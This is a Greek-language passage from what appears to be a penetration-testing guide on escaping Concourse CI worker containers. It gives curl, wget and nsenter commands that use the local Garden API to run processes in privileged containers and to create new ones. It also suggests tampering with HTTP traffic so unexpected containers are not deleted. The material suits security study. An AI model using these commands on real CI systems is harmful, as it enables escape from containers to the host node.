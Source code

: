 {% hint style="info" %}
Στην προηγούμενη ενότητα είδαμε πώς να διαφύγουμε από ένα προνομιούχο κοντέινερ, οπότε αν μπορούμε να **εκτελέσουμε** εντολές σε ένα **προνομιούχο κοντέινερ** που δημιουργήθηκε από τον **τρέχοντα** **εργάτη**, θα μπορούσαμε να **διαφύγουμε στον κόμβο**.
{% endhint %}

Σημειώστε ότι παίζοντας με το concourse παρατήρησα ότι όταν δημιουργείται ένα νέο κοντέινερ για να τρέξει κάτι, οι διαδικασίες του κοντέινερ είναι προσβάσιμες από το κοντέινερ του εργάτη, οπότε είναι σαν ένα κοντέινερ να δημιουργεί ένα νέο κοντέινερ μέσα σε αυτό.

**Μπαίνοντας σε ένα τρέχον προνομιούχο κοντέινερ**
```bash
# Get current container
curl 127.0.0.1:7777/containers
{"Handles":["ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

# Get container info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/properties

# Execute a new process inside a container
## In this case "sleep 20000" will be executed in the container with handler ac793559-7f53-4efc-6591-0171a0391e53
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'

# OR instead of doing all of that, you could just get into the ns of the process of the privileged container
nsenter --target 76011 --mount --uts --ipc --net --pid -- sh
```
**Δημιουργία ενός νέου προνομιακού κοντέινερ**

Μπορείτε πολύ εύκολα να δημιουργήσετε ένα νέο κοντέινερ (απλώς εκτελέστε ένα τυχαίο UID) και να εκτελέσετε κάτι σε αυτό:
```bash
curl -X POST http://127.0.0.1:7777/containers \
-H 'Content-Type: application/json' \
-d '{"handle":"123ae8fc-47ed-4eab-6b2e-123458880690","rootfs":"raw:///concourse-work-dir/volumes/live/ec172ffd-31b8-419c-4ab6-89504de17196/volume","image":{},"bind_mounts":[{"src_path":"/concourse-work-dir/volumes/live/9f367605-c9f0-405b-7756-9c113eba11f1/volume","dst_path":"/scratch","mode":1}],"properties":{"user":""},"env":["BUILD_ID=28","BUILD_NAME=24","BUILD_TEAM_ID=1","BUILD_TEAM_NAME=main","ATC_EXTERNAL_URL=http://127.0.0.1:8080"],"limits":{"bandwidth_limits":{},"cpu_limits":{},"disk_limits":{},"memory_limits":{},"pid_limits":{}}}'

# Wget will be stucked there as long as the process is being executed
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
```
Ωστόσο, ο διακομιστής ιστού ελέγχει κάθε λίγα δευτερόλεπτα τα κοντέινερ που εκτελούνται, και αν ανακαλυφθεί κάποιο απροσδόκητο, θα διαγραφεί. Καθώς η επικοινωνία πραγματοποιείται μέσω HTTP, θα μπορούσατε να παραποιήσετε την επικοινωνία για να αποφύγετε τη διαγραφή απροσδόκητων κοντέινερ:
```
GET /containers HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
.

T 127.0.0.1:7777 -> 127.0.0.1:59722 [AP] #157
HTTP/1.1 200 OK.
Content-Type: application/json.
Date: Thu, 17 Mar 2022 22:42:55 GMT.
```